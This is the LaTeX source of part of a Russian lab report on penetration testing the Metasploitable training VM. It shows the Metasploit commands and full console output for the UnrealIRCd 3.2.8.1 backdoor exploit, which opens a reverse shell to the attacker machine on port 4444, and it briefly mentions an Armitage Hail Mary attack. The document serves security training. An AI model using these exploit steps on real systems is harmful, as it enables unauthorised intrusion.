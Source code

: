 \documentclass[10pt,a4paper]{report}
\begin{document}
		Видно, какие директории доступны для службы SMB для чтения / записи. 
		
	\section{Получение консоли используя уязвимость в irc}
		Используем
		unreal\_ircd\_3281\_backdoor:
		
		\begin{lstlisting}
msf auxiliary(smb_enumshares) > use exploit/unix/irc/unreal_ircd_3281_backdoor 
msf exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.32.128
RHOST => 192.168.32.128
msf exploit(unreal_ircd_3281_backdoor) > exploit

[*] Started reverse TCP double handler on 192.168.32.129:4444 
[*] Connected to 192.168.32.128:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo CvS2oaP6xMjjBQd1;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "CvS2oaP6xMjjBQd1\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.32.129:4444 -> 192.168.32.128:52154) at 2016-05-19 08:16:22 -0400

uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux

		\end{lstlisting}
		Видно, что мы получили доступ к консоли.
		
	\section{Осуществление атаки при помощи утилиты Armitage Hail Mary}
		Запустим утилиту Armitage Hail Mary.
		Результат представлен на рисунке~\ref{ris:pic2.png}.
		
		\begin{figure}[h]
			\centering
			\includegraphics[width=0.9\textwidth]{pic2.png}
			\caption{утилита Armitage Hail Mary}
			\label{ris:2.png}
		\end{figure}
	
\end{document}
